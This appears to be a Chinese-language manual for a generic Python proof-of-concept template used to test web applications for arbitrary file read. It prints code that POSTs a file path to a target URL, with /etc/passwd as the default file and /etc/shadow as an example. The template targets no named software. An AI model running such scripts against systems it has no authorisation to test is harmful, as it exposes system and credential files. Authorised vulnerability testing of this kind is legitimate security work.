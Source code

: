 # 使用手册：POC脚本模板

此脚本是一个用于验证和利用漏洞的POC模板。用户可以使用它来验证特定的Web应用是否存在该漏洞，并尝试读取受影响应用的敏感文件。以下是如何使用这个POC脚本的详细说明。

## 1. 前提要求

```python
import requests
import subprocess
import sys
import importlib
```

### 1.1 必要的Python版本

此脚本适用于Python 3.x。请确保你的Python环境符合以下要求：

- Python 3.6 或更高版本

### 1.2 安装依赖库

此POC脚本可能依赖一些外部库。在执行前，确保所有必需的库已经安装。如果某些库没有安装，脚本会自动尝试安装缺少的库。

依赖库包括（但不限于）：

- `requests`: 用于发送HTTP请求。

## 2. 配置

### 2.1 配置类属性

```python
class DemoPOC:
    appName = ''              # 漏洞影响的应用或组件名称
    appVersion = ''           # 漏洞影响版本
    install_requires = []     # 你可以在这里添加其他需要的库
    CVE_ID = ""               # CVE编号
    Vul_name = ""             # 漏洞名称
    Type = "Arbitrary File Read" # 漏洞类型
    Description = ""          # 漏洞描述
    Script_type = "python"    # POC类型（暂时只支持python）
    Script = "xxx.py"         # POC文件名（包含后缀）
    Vul_Date = ""             # 漏洞公开日期
```

在脚本中，`DemoPOC`类有几个属性需要配置：

- **appName**: 漏洞影响的应用或组件的名称（可选）。
- **appVersion**: 漏洞影响的版本（可选）。
- **install_requires**: 所需安装的外部库列表。可以根据需要添加。
- **CVE_ID**: 漏洞的CVE编号，格式为`CVE-XXXX-YYYY`（可选）。
- **Vul_name**: 漏洞的名称，如“任意文件读取”。
- **Type**: 漏洞类型，可以修改。
- **Description**: 漏洞的简短描述。
- **Script_type**: 脚本类型，当前只支持Python脚本，保持默认“python”即可。
- **Script**: 脚本文件名，当前模板中默认为“xxx.py”。
- **Vul_Date**: 漏洞公开日期。

### 2.2 配置POC实例化参数

```python
    def __init__(self, url, ip, port):
        self.url = url
        self.ip = ip
        self.port = port
        self.file_path = '/etc/passwd'  # 修改这个路径以读取其他文件
```

在脚本的`DemoPOC`类的构造函数中，你需要提供以下信息：

- **url**: 目标Web应用的UR。
- **ip**: 目标主机的IP地址。
- **port**: 目标Web应用的端口号。

- **self.file_path**：可选项。你可以修改`self.file_path`属性来指定尝试读取的文件路径。你可以更改它为任何你想要尝试读取的文件路径。

例如，修改文件路径：

```python
self.file_path = '/etc/shadow'  # 读取shadow文件
```

## 3. 执行流程

### 3.1 检查并安装依赖

```python
def check_and_install_dependencies(self):
    """检查并安装所需的库"""
    missing_packages = []
    for package in self.install_requires:
        try:
            importlib.import_module(package)
        except ImportError:
            missing_packages.append(package)

    if missing_packages:
        print(f"Missing packages: {missing_packages}. Installing...")
        try:
            subprocess.check_call([sys.executable, "-m", "pip", "install", *missing_packages])
            print(f"Successfully installed: {missing_packages}")
        except subprocess.CalledProcessError as e:
            print(f"[ERROR] Failed to install required packages: {e}")
            return False
    return True
```

在开始执行漏洞验证和利用之前，脚本会首先检查是否已经安装了所需的Python库。如果缺少任何依赖，脚本将会尝试自动安装缺失的库。

### 3.2 漏洞利用

```python
def _exploit(self):
    """
    漏洞利用函数，尝试读取指定文件。
    """
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    payload = {'file': self.file_path}  # 根据目标漏洞调整此payload

    result = {}
    try:
        res = requests.post(self.url, headers=headers, data=payload)
        result['ExploitResponse'] = res.text
        return res.text
    except requests.RequestException as e:
        result['Error'] = f"[ERROR] Request failed: {e}"
        return result
```

执行漏洞利用函数时，脚本会发送HTTP请求到指定的URL，并携带自定义的payload。具体过程如下：

1. 检查依赖库是否安装。
2. 使用`requests`库发送一个POST请求到目标URL，payload中包含文件路径。
3. 根据返回的响应内容判断是否存在漏洞。如果能够成功读取指定的文件（例如`/etc/passwd`），则确认漏洞存在。

### 3.3 漏洞验证

```python
def _verify(self):
    """
    验证函数，检查漏洞是否存在。
    """
    self.check_and_install_dependencies()  # 检查是否安装所需库
    result = {}

    try:
        # 调用 _exploit 并获取返回结果
        res = self._exploit()

        if isinstance(res, dict) and 'Error' in res:
            result.update(res)  # 传递 _exploit 中的错误信息
        elif res and ':/bin/' in res:
            result['VerifyInfo'] = f"[!] Vulnerability found at {self.url}, able to read file: {self.file_path}"
        else:
            result['VerifyInfo'] = "[SAFE] No vulnerability found or file not accessible."
    except Exception as e:
        result['Error'] = f"[ERROR] Error during POC execution: {str(e)}"

    return result
```

如果验证成功，脚本将返回漏洞验证结果。如果文件不可访问或漏洞不存在，将显示相应的安全信息。

规格化的输出格式如下：

|    **场景**    |                       **输出格式示例**                       |                         **说明**                         |
| :------------: | :----------------------------------------------------------: | :------------------------------------------------------: |
|  **漏洞存在**  |              `[!] Vulnerability found at {url}`              |        检测到漏洞时输出，`{url}` 自动替换为实际值        |
| **漏洞不存在** |               `[SAFE] No vulnerability found.`               |                    未检测到漏洞时输出                    |
|  **错误信息**  | `[ERROR] Request failed: Connection refused` `[ERROR] Failed to install packages: {error}` | 网络错误、依赖安装失败或其他异常时输出，包含具体错误原因 |

## 4. 注意事项

1. **仅在授权的环境中使用此POC**：请确保你有权限对目标Web应用进行安全测试。未经授权的安全测试可能是非法的。
2. **payload**：如果需要，你可以根据目标漏洞的特性修改`_exploit()`方法的payload，或者添加更多的依赖库。
